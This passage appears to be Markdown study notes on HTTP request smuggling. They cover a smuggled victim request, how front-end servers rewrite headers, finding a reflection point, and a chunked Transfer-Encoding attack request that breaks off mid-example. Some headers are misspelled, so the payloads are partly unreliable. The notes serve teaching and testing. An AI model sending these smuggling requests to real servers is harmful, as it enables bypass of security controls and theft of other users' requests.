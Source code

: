 ```HTTP
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
blah
```
#### Victim Request
```HTTP
GET /fake_page HTTP/1.1
Host: mypage.ocom
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
blahPOST /profile HTTP/1.1
Host: Test.com
Content-Length: 8

u=person
```
This will cause a 404 error request
# Exploiting Vulnerability 
## Revealing Front-end Request Rewriting
* Often the front-end server will add or re-write some headers into the HTTP request before handing it to the back-end server:
	* X-Forwarded-For Headers with the users IP address
	* A determined user ID derived from the user sessions token
	* Information about TLS protocol and cipher suites used during the transaction. (TLS must terminate at the front-end if request re-writing is occurring)
* These headers are useful for an attacker as they might contain key information needed to bypass security measures. 
* Need to find a `POST` request that reflects the value of the request parameter back to us. 
	* Login functionality that re-populates the username after a failed login attempt
	* Search functionality that tells you "x results found for y"
### Reflection Point
```HTTP
POST /search HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 31

search=blahblahblah&language=EN
```

```HTML
<h1>
	0 search results for 'blahblahblah'
</h1>
```

### Attack Request 
```HTTP
POST /search HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 129
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 100

```